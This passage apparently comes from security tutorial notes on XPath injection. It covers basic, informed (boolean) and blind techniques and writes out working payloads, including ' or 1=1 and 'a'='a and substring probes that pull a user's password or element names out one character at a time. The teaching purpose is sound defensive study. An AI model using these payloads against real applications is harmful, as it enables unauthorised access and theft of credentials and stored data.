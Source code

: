 ```
//address[surname/text()='Dawes' and password/text()='' or 'a'='a']/ccard/text()
```

**NOTE:**
- **As with SQL injection, single quotation marks are not required when injecting into a numeric value.**
- **Unlike SQL queries, keywords in XPath queries are case-sensitive, as are the element names in the XML document itself.**

### Informed XPath Injection
Submitting the following two password will result in different behavior by the application. Results are returned in the first case but not in the second:

```
' or 1=1 and 'a'='a
' or 1=2 and 'a'='a
```

This difference in behavior can be leveraged to test the truth of any specified condition, and therefore, extract arbitrary information one byte at a time. As with SQL, the XPath language contains a substring funciton that can be used to test the value of a string one character at a time. For example, supplying this password:

```
' or //address[surname/text()='Gates' and substring(password/text(),1,1)='M'] and 'a'='a
```

results in the following XPath query, which returns results if the first character of the Gates user's password is `M`:

```
//address[surname/text()='Dawes' and password/text()=''  or //address[surname/text()='Gates' and substring(password/text(),1,1)='M'] and 'a'='a ']/ccard/text()
```


### Blind XPath Injection
It is possible to mount a fully blind attack without posessing information about the absolute path to the extracted data(`address`) and the names of the targeted fields (`surname` and `password`). XPath queries can contain steps that are relative to the current node within the XML document, so from the current node it is possible to navigate to the parent node or to a specific child node. Furthermore, XPath contains functions to query meta-information about the document, including the name of a specific element. 

For example, you can use the substring technique to extract the name of the current node's parent by supplying a series of passwords of this form:

```
'or substring(name(parent::*[position()=1]),1,1)='a
```

This input generates results, because the first letter of the `address` node is `a`. Moving on to the second letter, you can confirm that this is `d` by supplying the following passwords, the last of which generates results:

```
'or substring(name(parent::*[position()=1]),2,1)='a
'or substring(name(parent::*[position()=1]),2,1)='b
'or substring(name(parent::*[position()=1]),2,1)='c
'or substring(name(parent::*[position()=1]),2,1)='d
```
